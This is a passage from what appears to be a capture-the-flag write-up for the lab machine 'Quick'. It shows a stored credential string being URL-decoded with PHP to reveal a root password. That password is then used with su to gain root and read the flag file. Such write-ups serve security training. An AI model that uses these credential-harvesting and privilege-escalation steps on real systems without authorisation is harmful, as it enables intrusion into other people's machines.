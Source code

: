 We can URL decode many ways, such as using PHP:

```
srvadm@quick:~$ php -r 'echo urldecode("srvadm%40quick.htb:%26ftQ4K3SGde8%3F@printerv3.quick.htb\n");'
srvadm@quick.htb:&ftQ4K3SGde8?@printerv3.quick.htb
```

The password `&ftQ4K3SGde8?` is the root password. We can use su and get root access.

```
srvadm@quick:~$ su
Password: 
root@quick:/home/srvadm# id
uid=0(root) gid=0(root) groups=0(root)
root@quick:/home/srvadm# cat /root/root.txt
ca70f7b71[...]
```
